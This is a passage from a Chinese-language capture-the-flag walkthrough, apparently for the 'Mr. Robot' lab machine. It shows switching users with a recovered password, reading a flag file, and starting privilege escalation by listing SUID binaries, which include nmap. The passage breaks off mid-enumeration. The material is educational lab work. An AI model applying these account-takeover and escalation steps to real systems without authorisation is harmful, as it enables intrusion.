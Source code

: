     ![alt text](/style/image/image-546.png)

    + 密码：abcdefghijklmnopqrstuvwxyz

+ 切换robot:

    ```
    daemon@linux:/home/robot$ su robot
    su robot
    Password: abcdefghijklmnopqrstuvwxyz

    robot@linux:~$ ls
    ls
    key-2-of-3.txt	password.raw-md5
    robot@linux:~$ cat key-2-of-3.txt
    cat key-2-of-3.txt
    822c73956184f694993bede3eb39f959
    ```

## 提权

+ 列出目标机中设置了 SUID 位的程序

    ```
    robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    /bin/ping
    /bin/umount
    /bin/mount
    /bin/ping6
    /bin/su
    /usr/bin/passwd
    /usr/bin/newgrp
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/gpasswd
    /usr/bin/sudo
    /usr/local/bin/nmap
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
    /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
    /usr/lib/pt_chown
    robot@linux:~$ find / -type f -perm -04000 -ls 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
